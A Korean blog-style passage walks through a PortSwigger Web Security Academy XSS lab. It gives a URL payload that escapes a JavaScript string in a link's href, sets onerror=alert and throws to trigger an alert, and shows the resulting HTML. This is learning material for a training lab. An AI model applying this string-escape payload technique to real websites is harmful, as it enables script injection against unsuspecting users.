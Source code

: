 `https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27` 로 접근하면 랩이 풀린다. 

무슨 원리일까? 


일단 위의 URL로 접근했을 때의 HTML페이지의 코드는 다음과 같다. 

![](/images/burp-academy-xss-27-6.png)

```html
<div class="is-linkback">
    <a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d2%26%27},x%3dx%3d%3e{throw/**/onerror%3dalert,1337},toString%3dx,window%2b%27%27,{x%3a%27'}).finally(_ => window.location = '/')">Back to Blog</a>
</div>
```

그리고 Back to Blog 버튼을 누르면 다음과 같이 "Uncaught 1337"이라는 문자열이 포함된 alert창이 뜬다. 

![](/images/burp-academy-xss-27-5.png)

랩이 풀렸다는 메세지가 표시된다. 

![](/images/burp-academy-xss-27-success.png)

# 보충설명
아직 잘 이해가 되지 않는다. 이 랩을 설명하는 유튜브 영상이 있다. 여기를 보면 상세히 과정을 설명해주고 있다. 매우 도움이 된다. 

https://youtu.be/bCpBD--GCtQ

